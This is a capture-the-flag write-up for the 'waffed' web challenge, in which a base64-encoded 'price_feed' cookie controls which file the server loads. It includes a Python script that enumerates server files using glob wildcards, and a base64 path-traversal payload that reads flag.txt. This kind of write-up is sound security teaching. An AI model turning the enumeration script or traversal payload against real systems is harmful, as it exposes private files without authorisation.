




# waffed

This was part of the 0x41414141 CTF in January 2021.



http://45.134.3.200:9090/

The page comes up like this:


Clicking the `Get in Touch` link brings you to this page:



I tried SQL injection in all of these but got nothing interesting.

On the trade page:

http://45.134.3.200:9090/trade



You can see a visual graph of some data and have a selector to switch to a different coin.

When you do this, behind the scenes it makes an HTTP call to `/changeFeed/<selected-coin>`:

```
GET /changeFeed/XFT HTTP/1.1
Host: 45.134.3.200:9090
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://45.134.3.200:9090/trade
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: price_feed=REFJ
Connection: close
```

and returns:

```
HTTP/1.1 302 FOUND
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 25 Jan 2021 00:42:02 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 219
Location: http://45.134.3.200:9090/trade
Connection: close
Set-Cookie: price_feed=WEZU; Path=/
```

302 is a redirect and the Location response header tells the browser where to redirect to.

Notice the `Set-Cookie` header!

On a hunch, I decoded WEZU from base64 and out came: `XFT`

So the `price_feed` cookie value is just a base64 encoded version of the selected coin name.

* XFT's cookie is WEZU
* DAI's cookie is REFJ
* UNI's cookie is VU5J
* POPCOINS' cookie is UE9QQ09JTlM=


For fun, let's try:

`/changeFeed/STUFF`

That gave a 302 redirect to /trade with a cookie of:

```
Set-Cookie: price_feed=U1RVRkY=; Path=/
```

As expected this is just base64 for STUFF.

Then the /trade page rendered as:

```
<h1>WOOPS</h1>
```

That is likely due there not being any STUFF resource on the server.

I tried various forms of SQL injection here with no results.

I also tried just messing with various values to see how it would behave. I found an interesting behavior:

* \*D\* worked
* \*z\* WOOPS
* \*T worked
* \*S worked
* \*s WOOPS
* XF%3F (XF?) worked

This implies it is honoring bash-style wildcards like * and ?.

This makes me think the resources are on the file system and not, for example, in a database.

Knowing that "something" on the server was honoring bash, I wrote the following python:

```
import requests
import base64
from urllib.parse import quote_plus

BASE_URL = 'http://45.134.3.200:9090/trade'

def tryUrl(message):
    url = BASE_URL
    message_bytes = message.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')
    cookieValue = base64_message
    response = requests.get(url,
                            headers={
                                'Cookie': 'price_feed = ' + cookieValue
                            },
                            allow_redirects=False
                            )
    return response.status_code == 200 and ('WOOPS' not in response.text)

def findToken(partial):
    anyMatches = False
    for i in range(33,126):
        c = chr(i)
        if c == '*' or c == '?' or c == '/':
            continue
        if tryUrl(partial + c + '*'):
            print('partial: ', partial + c)
            anyMatches = True
            findToken(partial + c)

    if not anyMatches:
        print(partial)

findToken('')
```

This leverages the fact that * will match on all trailing characters to "hunt" for matches.

However, this only dumped out the ones we already knew about.

On a whim, I changed to:

```
findToken('../')
```
and it dumped out:
```
../Dockerfile
../description.txt
../requirements.txt
../run.sh
../wsgi.py
```

Cool!

I then tried more and more ../'s until it dumped out:

```
../../../../.dockerenv
../../../../flag.txt
```

So, we know where the flag is (relative to our current directory anyway).

Now that we know, let's manually edit the `price_feed` cookie in the browser to be the base64 for
`../../../../flag.txt`

This is: `Li4vLi4vLi4vLi4vZmxhZy50eHQ=`

Here is a screenshot of me manually editing the cookie inside the Chrome dev tools.



Let's back up a minute.  Before we started hacking the cookie value, it was showing some data in a visual graph.  You can view source to see the JSON that drives this visualization:

```
datasets: [{

label: 'prices overtime',

data: [33, 50, 41, 49, 35, 41, 45, 36, 30, 44, 34, 47, 49, 40, 31, 32, 44, 31, 38, 37, 37, 40, 34, 41, 40, 40, 45, 36, 42, 38, 50, 50, 50, 32, 48, 30, 42, 38, 30, 41, 35, 35, 36, 49, 44, 43, 30, 34, 35, 50, 43, 39, 39, 46, 35, 36, 49, 32, 31, 42, 43, 33, 48, 46, 30, 35, 34, 45, 33, 31, 37, 43, 33, 37, 36, 48, 31, 33, 34, 35, 37, 30, 30, 46, 35, 33, 48, 41, 34, 32, 32, 48, 32, 34, 34, 38, 43, 45, 39, 38],
borderColor: [
'rgba(255, 99, 132, 1)',
'rgba(54, 162, 235, 1)',
'rgba(255, 206, 86, 1)',
'rgba(75, 192, 192, 1)',
'rgba(153, 102, 255, 1)',
'rgba(255, 159, 64, 1)'
],
borderWidth: 
}]
```

Now that we've hacked the cookie, let's refresh the page and see what the same JSON looks like now:

```
datasets: [{
label: 'prices overtime',
data: [&#39;flag{w@fs_r3@lly_d0_Suck8245}&#39;],
borderColor: [
'rgba(255, 99, 132, 1)',
'rgba(54, 162, 235, 1)',
'rgba(255, 206, 86, 1)',
'rgba(75, 192, 192, 1)',
'rgba(153, 102, 255, 1)',
'rgba(255, 159, 64, 1)'
],
borderWidth: 1
}]
```

Yay! The contents of `flag.txt` end up in the JSON.